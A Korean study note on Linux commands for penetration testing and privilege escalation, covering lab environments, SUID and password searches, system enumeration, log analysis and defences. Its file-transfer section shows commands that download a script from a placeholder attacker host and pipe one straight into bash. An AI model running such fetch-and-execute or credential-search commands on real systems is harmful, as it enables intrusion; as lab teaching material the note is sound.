

## 1. 개요

**리눅스 명령어**는 시스템 해킹 및 보안 분석 과정에서 가장 기본적이면서도 강력한 무기이다.
GUI가 없는 서버 환경(Shell)에서 타겟 시스템의 정보를 수집하고, 취약점을 탐색하며, 권한 상승을 시도하기 위해서는 다양한 터미널 명령어를 능숙하게 다룰 수 있어야 한다.

---

## 2. 권한 상승 탐색 흐름



---

## 3. 실습 환경

### OverTheWire: Bandit
리눅스 명령어 실습을 위한 최고의 워게임 플랫폼이다.
```bash
ssh bandit0@bandit.labs.overthewire.org -p 2220
# Password: bandit0
```

### Metasploitable 2
```bash
# 권한 상승 실습을 위한 취약한 리눅스 VM
ssh msfadmin@192.168.56.101
```

---

## 4. 파일 탐색

### SUID 파일 검색
```bash
find / -perm -u=s -type f 2>/dev/null
```
> [GTFOBins](https://gtfobins.github.io/)에서 발견된 바이너리 검색

### Writable 디렉터리 검색
```bash
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

### 비밀번호 검색
```bash
grep -r -i "password" /var/www/html/
```

---

## 5. 시스템 상태 확인

```bash
# Root 프로세스 확인
ps aux | grep root

# 열린 포트 확인
ss -tulpn

# 커널 버전 (Exploit용)
uname -a
```

---

## 6. 파일 전송

```bash
# wget
wget http://[Attacker]:8000/linpeas.sh -O /tmp/linpeas.sh

# curl (다운로드 후 즉시 실행)
curl http://[Attacker]/shell.sh | bash
```

---

## 7. 로그 분석

| 로그 파일 | 설명 |
|-----------|------|
| `/var/log/auth.log` | 인증, sudo 기록 |
| `/var/log/syslog` | 시스템 메시지 |
| `/var/log/apache2/access.log` | 웹 접근 기록 |

```bash
tail -f /var/log/auth.log | grep "Failed password"
```

---

## 8. 유용한 One-Liner

```bash
# /etc/passwd 쓰기 권한 확인
ls -la /etc/passwd

# sudo 권한 확인
sudo -l

# 최근 수정된 파일 (백도어 탐지)
find / -mtime -1 -type f 2>/dev/null
```

---

## 9. 방어 대책

### 명령어 실행 제한
*   **rbash (Restricted Bash)**: 제한된 쉘을 사용하여 사용자의 명령어 실행 범위를 제한한다.
*   **sudo 권한 최소화**: `sudoers` 파일에서 필요한 명령어만 허용한다.

### 로그 모니터링
*   **auditd**: 파일 접근, 명령어 실행 등을 기록한다.
*   **SIEM 연동**: `auth.log`, `syslog`를 중앙 집중화하여 이상 행위를 탐지한다.

<hr class="short-rule">
